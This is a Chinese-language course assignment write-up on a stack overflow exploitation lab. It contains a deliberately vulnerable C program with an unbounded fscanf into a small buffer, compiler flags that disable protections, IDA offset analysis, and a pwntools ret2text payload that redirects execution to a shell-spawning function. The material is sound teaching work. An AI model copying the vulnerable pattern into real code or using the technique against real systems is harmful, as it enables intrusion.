

# 12.2作业---第四次作业：栈溢出利用实验

- [12.2作业---第四次作业：栈溢出利用实验](#122作业---第四次作业栈溢出利用实验)
  - [作业要求](#作业要求)
  - [实验环境](#实验环境)
  - [大体思路](#大体思路)
  - [实验过程](#实验过程)
    - [编写程序，生成exe程序](#编写程序生成exe程序)
    - [将该程序放进IDA中分析](#将该程序放进ida中分析)
    - [payload编写](#payload编写)
  - [结果展示](#结果展示)
  - [出现的问题与解决方案](#出现的问题与解决方案)


## 作业要求

参考下图内容，编写一个小程序，读入文本文件里面的内容，修改程序返回地址，弹出其他程序。


---

## 实验环境

- 操作系统
  - Win7，Win10,Ubuntu
- 实验工具
  - IDA Pro
  - pwntools
  - 010editor
- 实验对象
  - program.exe
  - program.cpp

---

## 大体思路

- ret2text方法
  - 编写的程序中存在自定义函数，其作用是打印出 `You have been pwned!` ，同时调用 `system` 函数调用计算器.
  - 通过编辑 `password.txt` ，让payload覆盖堆栈中的返回地址实现栈溢出，从而执行 `Attack` 函数
- ret2shellcode方法
  - 通过编辑 password.txt , 将system函数或是messagebox函数进行硬编码到shellcode中
  - 正在实现中，还在尝试

---

## 实验过程

### 编写程序，生成exe程序

- 在Windows下使用vscode进行编译（64bit）
  - [program.cpp](./program.cpp)

```c++
#include<stdio.h>
#include<string.h>
#include<stdlib.h>

void Attack() {
    printf("You have been pwned!");
    system("C:\\Windows\\System32\\calc.exe");
}

void fun() {
    char password[6] = "ABCDE";
    char str[6];
    FILE* fp;
    if (!(fp = fopen("password.txt", "r"))) {
        exit(0);
    }
    fscanf(fp, "%s", str);

    str[5] = '\0';
    if (strcmp(str, password) == 0)
        printf("OK.\n");
    else
        printf("NO.\n");
}

int main() {
    fun();
    return 0;
}
```

- 在ubuntu 下使用gcc进行编译（32位）
  - [program32.cpp](./program32.cpp)

  - 使用下面的命令： 
  ```bash
  gcc -g -m32 -O0 -fno-stack-protector -z execstack -no-pie -o [可执行文件名] [源文件名]
  ```
   - 各种安全选择的编译参数如下：
      - -m32：使用32位编译
      - -O0：关闭所有优化
      - NX：-z execstack / -z noexecstack (关闭 / 开启) 启用栈上代码可执行
      - Canary：-fno-stack-protector /-fstack-protector / -fstack-protector-all (关闭 / 开启 / 全开启)栈保护
      - PIE：-no-pie / -pie (关闭 / 开启)
      - RELRO：-z norelro / -z lazy / -z now (关闭 / 部分开启 / 完全开启)


```c++
#include<stdio.h>
#include<string.h>
#include<stdlib.h>

void Attack(){
    printf("You have been pwned!");
    system("/bin/sh");
}

void fun(){
    char password[6]="ABCDE";
    char str[6];
    FILE *fp;
    if(!(fp=fopen("password32.txt","r"))){
        exit(0);
    }
    fscanf(fp,"%s",str);

    str[5]='\0';
    if(strcmp(str,password)==0)
        printf("OK.\n");
    else
        printf("NO.\n");
}

int main(){
    fun();
	return 0;
}
```

### 将该程序放进IDA中分析

- 按 `f5` ，查看fun()函数源码

  

  其中Str1[6]是fscanf存放fp这一文件内容的字符串数组，双击它，查看该函数堆栈情况。

<br>

- fun()函数的堆栈情况

  

  图中显示的两个特殊值s和r (前面均带有空格)。这些伪变量是IDA表示被保存的返回地址(r)和被保存的寄存器值(s,在本例中，s仅代表RBP)的特殊方法。

<br>  

- Attack()函数的反汇编代码


可以看到该函数的入口点是 `401550`，稍后会用到


- program32使用`checksec`工具查看相关信息：
  ```bash
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
  ```

### payload编写

- 这里payload编写使用pwntools库

```c
int result; // eax
char Str1[6]; // [rsp+2Ch] [rbp-14h] BYREF
char Str2[6]; // [rsp+32h] [rbp-Eh] BYREF
FILE *Stream; // [rsp+38h] [rbp-8h]
```

- 从上述信息中可以得到Str1相对于rbp的偏移量为`0x14` , 从 rbp 到返回地址之间还存在 `0x08` 的偏移量，并且Attack函数的地址为 `0x401550` , 那就跟在上述payload之后达到覆盖原始返回地址的目的。

```py
payload = b'a' * (0x14+0x08) + p64(0x401550)
```

  将payload保存在 `password.txt` 中即可。

  完整 [getcalc.py](./getcalc.py)

  ```py
  from pwn import *

  # 32bit:
  # payload = b'a'*0x1c + p32(0x8049276)
  # with open ('password32.txt','wb') as f:
  #     f.write(payload)

  # 64bit
  payload = b'a'* 0x1c + p64(0x401550)
  with open ('password32.txt','wb') as f:
      f.write(payload)
  ```

---

## 结果展示

- password.txt 与 program.exe 在一个文件夹中，双击运行，可弹出计算器，并且显示`You have been pwned`


- 在 program32 中同理，在 `WSL2` 的Ubuntu环境下，运行`./program32` , 可以getshell


---

## 出现的问题与解决方案

- 在win10中能够显示You have been pwned！，但是一直无法弹出计算器，并且立即退出。如下图。
  - 解决方法：换成win7系统，成功解决


